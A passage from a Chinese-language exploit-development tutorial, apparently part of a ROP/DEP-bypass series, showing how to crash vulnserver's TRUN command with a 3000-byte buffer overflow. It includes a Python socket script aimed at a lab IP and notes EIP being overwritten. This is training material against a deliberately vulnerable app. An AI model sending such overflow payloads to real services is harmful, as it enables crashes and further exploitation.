 ##### 找到偏移量

现在一切都已启动并运行，让我们进入有趣的部分——漏洞利用开发过程。

我们正在使用的应用程序称为 vulnserver，顾名思义，它是易受攻击的。

在 vulnserver 中发现 TRUN 命令容易受到基于堆栈的缓冲区溢出的影响，通俗地说，就是当通过 TRUN 命令发送一个程序无法处理的长输入字符串时，程序将崩溃。更专业一点，因为程序对它可以接收的输入长度没有进行限制，所以内存空间（缓冲区）和 EIP（指令指针）被覆盖

为了验证这一点，让我们从攻击者机器发送一个字符串 3000 到应用程序，以验证。

```python
#!/usr/bin/python
import socket,sys
host=”192.168.2.135"
port=9999

buffer = “TRUN /.:/” + “A” * 3000
expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
expl.connect((host, port))
expl.send(buffer)
expl.close()
```

正如预期的那样，应用程序崩溃了

![3](ROP_bypass_DEP/3.png)

在将程序附加到 Immunity Debugger 并运行相同的脚本时，我们可以看到 EIP 被四个（指令长度）41 覆盖，这是 A 的十六进制。
